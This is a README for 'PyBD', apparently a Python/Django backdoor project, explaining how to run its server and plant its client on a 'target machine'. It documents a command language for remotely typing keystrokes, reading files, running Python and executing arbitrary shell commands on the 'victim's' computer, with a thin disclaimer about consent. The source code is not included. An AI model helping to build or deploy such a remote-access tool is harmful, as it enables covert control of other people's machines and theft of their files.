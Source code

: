 # PyBD
<h1>Work in Progress</h1>
<h1>DO IT ON YOUR OWN RISK AND WITH CONSENT</h1>
<h4>We are not responsible for any damage you do</h4>
Backdoor made with python, django, sqlite (WIP)

<h1>What is a backdoor?</h1>
Basically you can gain access to another persons computer.



<h1>Usage:</h1>
<h4>First install all the libraries you need for this</h4>
<pre>pip install -r requirments.txt</pre>
<h4>Than, you need to start the server</h4>
<pre>cd server</pre>
<pre>python manage.py runserver</pre>
<h4>Run the main.py on the target machine</h4>
<pre>cd client</pre>
<pre>python main.py</pre>

<h1>Code Example</h1>
<pre>
keyboard:"
`ctrl + n`
www.youtube.com
`enter`
";

delay:5

keyboard:"
`alt + f4`
";

cd ..

read: test.txt, test1.txt

python:"
print("hello world")
";
</pre>


<h1>More deep into the Language</h1>

<ul>
<li><h3>Keyboard</h3>
Will type hello and bye on the victims computer
<pre>keyboard:"
Hello
bye
";</pre>
</li>
  
<li><h3>Read</h3>
<h4>Read files and takes infinite amount of arguments separted by a commma</h4>
<pre>read: "test.txt"</pre>
<h4>Read multiple files (infinite amount)</h4>
<pre>read: "file_name", "filename_2"</pre>
</li>
  
<li><h3>Delay</h3>
<h4>Takes on argument in seconds</h4>
<h4>This example will delay for one second</h4>
<pre>delay:1;</pre>
</li>
  
<li><h3>Python</h3>
<h4>Running python scripts</h4>
<pre>python: "
print("hello world")
";
</pre>
</li>
  
<li><h3>CMD</h3>
<h4>Anything other will be interpurted as a cmd command</h4>
<pre>
cd ..
dir
</pre>
</li>
</ul>


